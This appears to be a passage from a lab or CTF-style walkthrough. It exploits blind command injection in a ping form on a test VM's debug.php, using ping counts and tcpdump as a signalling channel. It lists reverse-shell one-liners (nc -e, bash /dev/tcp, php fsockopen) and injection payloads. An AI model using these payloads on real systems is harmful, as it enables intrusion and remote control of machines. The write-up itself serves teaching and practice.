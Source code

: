 
Yay. `wfuzz` is stupidly fast and finished the above in like 4 seconds. Browsing to http://192.168.56.101/debug.php showed us a input field labeled "Ping address:" and a submit button

{% img https://i.imgur.com/neKe18e.png %}

"Command injection?", was the first thought here.

##blind command injection
I started by entering a valid IP address that had `tcpdump` listening to test if the script is actually running a ping like it says ...

```bash ping test
root@kali:~# tcpdump icmp 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
07:46:15.503023 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 64004, seq 1, length 64
07:46:15.503040 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 64004, seq 1, length 64
07:46:16.503729 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 64004, seq 2, length 64
07:46:16.503768 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 64004, seq 2, length 64
07:46:17.503180 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 64004, seq 3, length 64
07:46:17.503260 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 64004, seq 3, length 64
07:46:18.502811 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 64004, seq 4, length 64
07:46:18.502842 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 64004, seq 4, length 64
```

... which it was. What is important to note here is that we have 4 echo requests.

I then proceeded to modify the input attempting to execute other commands too. None of my attempts returned any output to the browser, however, sending the field `;exit 0;` caused the HTTP request to complete almost instantly while no ping requests were observed on the `tcpdump`. This had me certain that this field was vulnerable to a command injection vulnerability.

This is all good, but not getting any output makes it really had to work with this. So, the next steps were to try and get a reverse/bind shell out of this command injection vulnerability.

I tried the usual culprits: `nc <ip>  <port> -e /bin/bash`; `bash -i >& /dev/tcp/<ip>/<port> 0>&1`; `php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'`. None of them worked. Eventually I started to realize that I may have a much bigger problem here. What if none of these programs (nc/bash/php) are either not executable by me or simply not in my PATH? What if there was a egress packet filter configured?

##blind command injection - file enumeration
Ok, so I took one step back and had to rethink my strategy. I have blind command execution, but how am I going to find out what else is going on on the filesystem? Up to now I have simply assumed too much.

I thought I should try and see if I can confirm the existence of files. To do this, I used a simple bash `if [ -f /file ]` statement, with a single ping for success, and 2 pings for a failure. The string for the `debug.php` input field looked something like this:

```bash File existence check payload
;if [ -f /bin/sh ] ; then ping 192.168.56.102 -c 1 ; else ping 192.168.56.102 -c 2 ; fi
```

Submitting the above input presented me with a single ping, confirming that `/bin/sh` exists.

```bash File existence response
root@kali:~# tcpdump icmp 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
08:15:53.557994 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 63493, seq 1, length 64
08:15:53.558011 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 63493, seq 1, length 64

```
